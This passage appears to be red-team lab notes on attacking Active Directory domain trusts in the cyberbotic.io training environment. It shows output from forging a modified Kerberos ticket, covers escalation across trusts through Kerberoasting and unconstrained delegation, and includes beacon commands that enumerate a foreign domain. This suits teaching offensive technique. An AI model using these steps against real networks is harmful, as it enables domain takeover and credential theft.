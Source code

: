 ```
      doIF1j[...]5JTw==

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIGAj[...]lDLklP
```

### Going Through a few Different Scenarios

If `dev.cyberbotic.io` also had a child (e.g. `test.dev.cyberbotic.io`), then a DA in `TEST` would be able to use their `krbtgt` to hop on DA/EA in `cyberbotic.io` instantly because the trusts are transitive.

There are also other means which do not require Domain Admin in the child.

For example, you can kerberoast and/or ASREProast across domain trusts, which may lead to privileged credential disclosure.

Because principals in `CYBER` can be granted access to resources in `DEV`, you may find instances where they are accessing machines we have compromised.

If they interact with a machine with unconstrained delegation, we can capture their TGTs.

If they're on a machine interactively, such as RDP, we can impersonate them just like any other user.

## One-Way Inbound

**`dev.cyberbotic.io` also has a one-way inbound trust with `dev-studio.com`:**

```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : dev-studio.com
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 8/16/2022 9:52:37 AM
WhenChanged     : 8/16/2022 9:52:37 AM
```

Since the trust is inbound from our perspective, it means that principals in our domain can be granted access to resources in the foreign domain.

**We can enumerate the foreign domain across the trust:**

```
beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

dnshostname      
-----------      
dc.dev-studio.com
```
